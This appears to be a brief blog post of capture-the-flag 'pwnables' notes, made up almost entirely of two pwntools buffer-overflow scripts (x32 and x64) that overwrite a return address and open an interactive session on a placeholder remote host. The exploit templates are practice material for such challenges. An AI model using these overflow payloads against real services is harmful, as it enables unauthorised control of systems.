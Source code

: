 ```yaml
---
title: bof
author: janger
date: 2023-09-25
category: pwnables
layout: post
---
```




**pwntools for Return Address Overwrite(x32)**

{% highlight python %}
```python
from pwn import *

p = remote('example.pwnable.io', 8000)

dummy = b'A' * 20
sfp = b'B' * 4
ret = p32(0x08048087)

payload = dummy + sfp + ret

p.send(payload)
p.interactive()
```
{% endhighlight %}

<br>

**pwntools for Return Address Overwrite(x64)**

```python3
from pwn import *

p = remote('example.pwnable.io', 8000)

dummy = b'A' * 20
sfp = b'B' * 8
ret = p64(0x08048087)

payload = dummy + sfp + ret

p.send(payload)
p.interactive()
```

<br>


